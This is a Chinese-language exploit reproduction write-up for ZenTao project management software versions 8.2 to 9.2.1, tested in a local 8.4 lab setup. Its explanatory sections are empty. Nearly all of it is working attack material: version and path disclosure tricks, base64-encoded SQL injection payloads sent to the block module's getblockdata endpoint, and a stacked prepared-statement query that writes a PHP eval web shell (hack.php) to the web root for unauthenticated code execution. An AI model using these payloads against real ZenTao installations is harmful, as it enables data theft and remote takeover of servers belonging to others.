

禅道 8.2-9.2.1 注入&getshell
============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

我这里用的官方集成环境版本8.4

    获取版本号：/index.php?mode=getconfig

绝对路径

获取绝对路径：网址后面随便输入什么就会爆出绝对路径

没路径的报错exp：

    {"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"}

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0=

EXP

    提交地址：http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64

※exp需要base64加密后才能提交，且回显、写Shell须加上Referer：<http://127.0.0.1:81/zentao/>

注入显密码：

    {"orderBy":"order limit 1;#","num":"1,1","type":"openedbyme"}

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTsjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==

不知道什么原因，本地复现无账号密码回显。。。

前台GetShell：

    {"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}

其中有部分使用了MySQL的预处理查询绕过程序的过滤：

导出shell：

    select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php'

HEX编码：（注意加密解密都不带0x，但是EXP中需要加上）

    73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027

base64加密：

    eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==

访问之即可在目录下生成hack.php：

image
